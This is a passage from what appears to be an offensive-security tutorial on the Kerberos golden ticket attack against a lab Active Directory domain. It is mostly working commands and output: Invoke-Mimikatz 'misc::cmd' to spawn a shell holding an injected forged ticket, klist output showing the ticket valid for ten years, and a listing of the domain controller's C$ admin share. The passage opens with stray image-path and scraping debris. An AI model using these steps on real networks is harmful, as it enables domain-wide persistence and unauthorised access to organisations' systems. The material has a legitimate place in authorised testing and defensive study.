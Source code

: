 Golden ticket for 'Viper @ security.local' successfully submitted for current session
</code></pre>

Now the ticket has been created and injected into the current process (`/ptt`) we can use the command below to open a new command prompt from Mimikatz whilst retaining the ticket.

<pre class="language-powershell"><code class="lang-powershell"><strong>Invoke-Mimikatz -Command "misc::cmd"
</strong></code></pre>

Next, use `klist` command to check if the ticket has retained in the new session

```
Current LogonId is 0:0x57cab

Cached Tickets: (1)

#0>     Client: Viper @ security.local
        Server: CIFS/dc01.security.local @ security.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 2/9/2023 13:21:08 (local)
        End Time:   2/6/2033 13:21:08 (local)
        Renew Time: 2/6/2033 13:21:08 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

We are then able to list the `C$` share of the Domain Controller.

```powershell
# CMD 
dir \\DC01.Security.Local\C$

# PowerShell
ls -force \\DC01.Security.Local\C$
```

{% code title="Output" %}
```powershell
<-- Snip -- >

 Directory of \\DC01.Security.Local\C$

22/12/2022  13:30    <DIR>          PerfLogs
22/12/2022  14:26    <DIR>          Program Files
25/01/2023  17:02    <DIR>          Program Files (x86)
26/01/2023  19:58    <DIR>          Users
03/01/2023  16:01    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  60,414,803,968 bytes free
               
<-- Snip -- >
```
{% endcode %}
